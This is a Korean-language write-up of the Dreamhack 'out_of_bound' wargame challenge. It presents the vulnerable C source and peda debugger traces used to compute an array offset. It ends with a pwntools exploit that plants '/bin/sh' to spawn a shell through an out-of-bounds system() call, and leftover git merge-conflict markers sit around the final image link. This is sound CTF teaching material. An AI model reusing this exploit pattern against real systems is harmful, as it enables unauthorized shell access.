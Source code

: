 # [Dreamhack] out_of_bound 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler() {

    puts("TIME OUT");
    exit(-1);
}

void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main() {
    
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

전역 변수로 char형 변수 name[16]이랑 포인터인 command를 선언한다.

메인 함수를 보면 첫번째로 name에 Admin name을 입력받는다.

그리고 숫자를 입력받고 포인터 배열에 있는 커맨드를 불러와서 system 명령어로 실행시킨다.

scanf에서 idx를 입력받고 sysyem함수에서 command를 불러올때 idx값이 배열의 크기를 넘는지 검사하는 부분이 없기때문에 out of bound 취약점이 발생하는것을 알 수 있다.

name에 “/bin/sh”을 입력하고 idx에 스택에 변수 name이 몇 번째에 있는지 입력해주면 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- Admin name의 위치와 command 배열의 오프셋
- name에서 입력할때 저장되는 주소

디버깅은 peda를 사용했습니다.

### Admin name의 위치와 command 배열의 오프셋구하기

---

Admin name을 입력받는곳에서 aaaa를 입력한 상태이다 .

```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xf7f9e000 --> 0x229dac 
ECX: 0x804a0ac ("aaaa\n")
EDX: 0x10 
ESI: 0xffffcfb4 --> 0xffffd191 ("/home/zergsung/pwn/dreamhack/out_of_baound/out_of_bound")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0xffffcee8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
ESP: 0xffffcec0 --> 0x0 
EIP: 0x804870d (<main+66>:	add    esp,0x10)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048701 <main+54>:	push   0x804a0ac
   0x8048706 <main+59>:	push   0x0
   0x8048708 <main+61>:	call   0x80484a0 <read@plt>
=> 0x804870d <main+66>:	add    esp,0x10
   0x8048710 <main+69>:	sub    esp,0xc
   0x8048713 <main+72>:	push   0x804881e
   0x8048718 <main+77>:	call   0x80484b0 <printf@plt>
   0x804871d <main+82>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffcec0 --> 0x0 
0004| 0xffffcec4 --> 0x804a0ac ("aaaa\n")
0008| 0xffffcec8 --> 0x10 
0012| 0xffffcecc --> 0x80486ec (<main+33>:	sub    esp,0xc)
0016| 0xffffced0 --> 0xffffcf10 --> 0xf7f9e000 --> 0x229dac 
0020| 0xffffced4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0 
0024| 0xffffced8 --> 0xf7fbeb20 --> 0xf7d8ecc6 ("GLIBC_PRIVATE")
0028| 0xffffcedc --> 0xe4b24e00 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804870d in main ()
```

ECX를 보면 0x804a0ac에 aaaa가 저장되는것을 알 수 있다. 

```nasm
main 함수
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret    
End of assembler dump.
```

위에 main함수의 108번째줄을 보면 0x804a060에서 가져오는것을 볼수있다.

그럼 (0x804a0ac - 0x804a060)/4 를 해주면 오프셋을 구할 수 있다. 4를 나눠주는이유는 포인터 배열이 하나당 4바이트를 할당하기 때문이다. 

계산해보면 19가 나온다.

### name에 쉘코드 삽입하기

---

c언어 코드를 보면 command 배열이 포인터로 선언되는것을 알수있다. 그렇기 때문에 Admin name에 바로 쉘코드를 삽입하면 그 쉘코드가 16진수로 바뀐주소에 있는값을 가져오기 때문에 오류가 난다. 그렇기 때문에 우리는 먼저 쉘코드가 있을 주소 4바이트를 입력한후 그 주소에 쉘코드를 써주면 된다.

그렇기에 쉘코드는 name의 주소에 name의 주소값을 더한 4바이트 큰 name + 4 에 위치하게 된다. 

그럼 우린입력할때 name주소+4다음 쉘코드를 입력하면 될것이다.

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

#p = remote("host3.dreamhack.games", 9469)
p = process("./oob")

shell = b"/bin/sh"
name = 0x804a0ac

p.recvuntil(b'name:')

payload = p32(name+4) + shell

p.sendline(payload)
p.recvuntil(b'want?:')
p.sendline(b'19')
p.interactive()
```

<<<<<<< HEAD
![Untitled](/3%EC%A3%BC%EC%B0%A8/OOB/%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5/Untitled.png)
=======
![Untitled](../OOB/%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5/Untitled.png)
>>>>>>> ef62dfa (수정 안되나?)

쉘이 따진 걸 볼 수 있다.
